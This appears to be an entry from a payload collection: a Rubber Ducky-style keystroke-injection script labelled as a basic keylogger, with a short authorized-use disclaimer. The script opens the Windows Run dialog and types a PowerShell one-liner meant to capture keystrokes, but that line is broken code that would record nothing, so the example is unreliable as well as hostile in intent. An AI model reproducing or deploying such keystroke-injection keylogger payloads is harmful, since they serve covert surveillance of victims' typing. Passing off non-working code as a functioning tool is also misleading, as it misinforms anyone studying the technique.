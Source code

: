 # Keylogger

A basic keylogger that records keystrokes (just an example; a real keylogger would be much more complex and hidden).

```
DELAY 500
GUI r
DELAY 500
STRING powershell -Command "$keylogger = New-Object System.Windows.Forms.Keys; $keylogger.Add_KeyDown('Capture')"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.